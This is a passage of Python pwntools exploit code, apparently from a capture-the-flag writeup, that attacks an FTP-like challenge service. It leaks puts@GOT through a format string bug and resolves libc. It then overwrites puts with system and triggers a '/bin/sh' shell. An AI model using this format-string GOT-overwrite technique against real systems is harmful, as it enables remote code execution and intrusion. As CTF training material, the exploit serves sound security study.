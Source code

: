 ```python
    data = sh.recv()
    return data


def put(name, content):
    sh.sendline('put')
    sh.recvuntil('please enter the name of the file you want to upload:')
    sh.sendline(name)
    sh.recvuntil('then, enter the content:')
    sh.sendline(content)


def show_dir():
    sh.sendline('dir')


tmp = 'sysbdmin'
name = ""
for i in tmp:
    name += chr(ord(i) - 1)


# password
def password():
    sh.recvuntil('Name (ftp.hacker.server:Rainism):')
    sh.sendline(name)


#password
password()
# get the addr of puts
puts_got = pwn3.got['puts']
log.success('puts got : ' + hex(puts_got))
put('1111', '%8$s' + p32(puts_got))
puts_addr = u32(get('1111')[:4])

# get addr of system
libc = LibcSearcher("puts", puts_addr)
system_offset = libc.dump('system')
puts_offset = libc.dump('puts')
system_addr = puts_addr - puts_offset + system_offset
log.success('system addr : ' + hex(system_addr))

# modify puts@got, point to system_addr
payload = fmtstr_payload(7, {puts_got: system_addr})
put('/bin/sh;', payload)
sh.recvuntil('ftp>')
sh.sendline('get')
sh.recvuntil('enter the file name you want to get:')
#gdb.attach(sh)
sh.sendline('/bin/sh;')

# system('/bin/sh')
show_dir()
sh.interactive()
```
